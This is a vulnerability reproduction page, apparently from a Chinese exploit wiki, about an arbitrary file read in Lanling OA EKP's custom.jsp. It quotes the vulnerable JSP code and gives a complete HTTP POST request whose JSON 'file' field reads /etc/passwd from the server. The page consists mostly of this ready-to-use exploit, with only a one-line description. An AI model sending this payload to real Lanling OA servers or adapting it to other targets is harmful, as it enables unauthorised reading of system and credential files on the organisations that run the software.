 # Lanling OA custom.jsp Any file reading vulnerability

## Vulnerability Description

Shenzhen Lanling Software Co., Ltd. Digital OA (EKP) has an arbitrary file reading vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Lan Ling OA</span>

## Network surveying and mapping



## Vulnerability reappears

The file with the vulnerability is custom.jsp

```plain
<%@page import="com.landray.kmss.util.ResourceUtil"%>
<%@page import="net.sf.json.JSONArray"%>
<%@page import="net.sf.json.JSONObject"%>
<%@ page language="java" pageEncoding="UTF-8"%>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core"%>
<%
 JSONObject vara =
JSONObject.fromObject(request.getParameter("var"));
 JSONObject body = JSONObject.fromObject(vara.get("body"));
%>
<c:import url='<%=body.getString("file") %>'>
 <c:param name="var" value="${ param['var'] }"></c:param>
</c:import>
```

The request package is

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"file:///etc/passwd"}}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/lanling-2.png)